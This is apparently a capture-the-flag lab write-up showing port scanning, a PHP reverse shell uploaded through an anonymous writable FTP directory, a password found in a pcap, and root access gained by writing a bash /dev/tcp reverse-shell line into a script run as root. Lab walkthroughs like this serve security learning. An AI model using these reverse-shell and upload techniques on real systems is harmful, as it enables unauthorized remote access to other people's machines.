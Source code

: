 # Scanning and Enumeration

```bash
nmap -p- -A -T4 10.10.186.198
```

```bash
PORT   STATE SERVICE VERSION

21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 09 02:12 ftp [NSE: writeable]
|_-rw-r--r--    1 0        0             208 Nov 09 02:12 notice.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.11.1.219
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 42:67:c9:25:f8:04:62:85:4c:00:c0:95:95:62:97:cf (RSA)
|   256 dd:97:11:35:74:2c:dd:e3:c1:75:26:b1:df:eb:a4:82 (ECDSA)
|_  256 27:72:6c:e1:2a:a5:5b:d2:6a:69:ca:f9:b9:82:2c:b9 (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance

Linux 3.10 - 3.13 (95%)
```

#### Port 80

I run gobuster

```bash
gobuster dir -u http://10.10.186.198 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

I found `files` directory
In there I find 3 files

important.jpg
notice.txt gives me a user Maya

#### Port 21

We have a writeable directory...
We also see that the files we found in port 80 are the files in the ftp server.

## Exploitation

In order to exploit this machine we create a reverse.php file
and we put to it in the ftp writeable dir.

```bash
put prev.php
```

In the `root` dir we can see a `insidents` file
In there we can find a pcap file. If we analyze it with wireshark we find:

```bash
c4ntg3t3n0ughsp1c3
```

Trying it as a password with the different users we find out that this passwd
belongs to lennie

## Post Exploitation

Enumerating the machine as lennie we come accross with a file called
scripts. Inside we see:

```bash
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

After a lot of time I got a hint and I opened a nc listener and wrote
the bash reverse shell and got a root shell

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.11.1.219/4444 0>&1
```
